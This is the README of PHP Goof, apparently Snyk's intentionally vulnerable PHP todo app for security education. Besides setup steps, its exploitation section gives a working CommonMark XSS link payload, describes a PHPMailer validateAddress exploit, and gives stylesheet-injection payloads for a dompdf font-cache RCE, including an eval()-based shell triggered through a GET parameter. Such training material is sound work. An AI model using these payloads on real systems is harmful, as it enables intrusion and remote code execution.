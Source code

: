 # PHP Goof - Snyk's vulnerable demo php app

A vulnerable PHP demo todo application that is for demonstration and education purposes only, i take no responsibility for this being used with malicious intent nor should this be used for malicious intent (or be run in any product environment).

test1

 
![PHP Goof](/images/screenshot.png)
  
## Requisites & Running 

- PHP 7.4+
- Mysql or MariaDB 
- Composer 2

Run composer install from the project root directory

Create mysql or mariaDB database and update the db.php file, with database details. 

Import sql/database.sql file into the newly created database or run the following table create.

```
CREATE TABLE `task` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `title` varchar(255) NOT NULL,
  `created_at` timestamp NOT NULL DEFAULT current_timestamp(),
  PRIMARY KEY (`id`)
) ENGINE=InnoDB AUTO_INCREMENT=76 DEFAULT CHARSET=utf8mb3;
```

Finally, Using the PHP built in server run the code from the root app directory

```
php -S localhost:8000
```

## Exploiting the vulnerabilities

### Commonmark XSS Vulnerability

[SNYK-PHP-LEAGUECOMMONMARK-174004](https://security.snyk.io/vuln/SNYK-PHP-LEAGUECOMMONMARK-174004)

```
* Markdown link
This is **markdown**

* Markdown link
[Snyk](https://snyk.io/)

* Failed XSS
[Gotcha](javascript:alert(1))

* Failed XSS despite URL encoding
[Gotcha](javascript&#58;alert(1&#41;)

* Successfull XSS using vuln and browser interpretation 
[Gotcha](javascript&amp;colon;alert%28&#039;Gotcha&#039;%29)
```

### PHPMailer 

[SNYK-PHP-PHPMAILERPHPMAILER-1311001](https://security.snyk.io/vuln/SNYK-PHP-PHPMAILERPHPMAILER-1311001)

Uses the `validateAddress()` exploit from PHPMailer 6.4.1 to execute the global `PHP()` function by default. If no argument is passed into the `validateAddress()` function, which isnt in this demo, PHPMailer sets "PHP" as the default value and runs it if its available in the scope. 

To run click the email icon next to a line entry to send an email reminder. 

Note: No emails will actually send or are being stored, only validating the email address entered into the input using the PHPMailer library. 


### dompdf remote code execution 

[SNYK-PHP-DOMPDFDOMPDF-2428942](https://security.snyk.io/vuln/SNYK-PHP-DOMPDFDOMPDF-2428942)

[Read more about this Vulnerability](https://snyk.io/blog/security-alert-php-pdf-library-dompdf-rce/)

This vulnerability is using dompdf library version 1.2.0 and allows for remote code execution on the target application. In this app there is a custom font called gotcha-normal.otf which has `<?php phpinfo(); ?>` loaded into the copyright font meta. 

The font file is then referenced as a `font-family` in the CSS file `gotcha.css` which is then injected into the dompdf html output via a stylesheet link. 

Dompdf loads the style sheet and saves the custom font type to the dompdf font cache (and as part of the framework). This can then be remotely executed. 

*** Note: in the CSS font-family, the font name needs to match the actual font name or this will not work. 

To use this in this app, load the below code into a todo item and click pdf on its line entry, chicken and egg note that you will need to refresh the PDF with the file examples below so that the link generates into the pdf to click. 

```
<link rel=stylesheet href='https://raw.githubusercontent.com/snyk-labs/php-goof/main/exploits/gotcha.css'>
```
Additional, added an example that uses a reverse shell by using a php `eval()` in a font file leveraging the RCE exploit. This works the same as above but using the below CSS. To use it simply load any get variable into the url when the gotcha link is created in the pdf, example `...?test=phpinfo();`. Regular $_GET references didnt work but `reset()` did which will pick up the first in the $ array and run it in `eval()`.

Note this uses a different font file and family in the exploit folder.

```
<link rel=stylesheet href='https://raw.githubusercontent.com/snyk-labs/php-goof/main/exploits/rshell.css'>
```
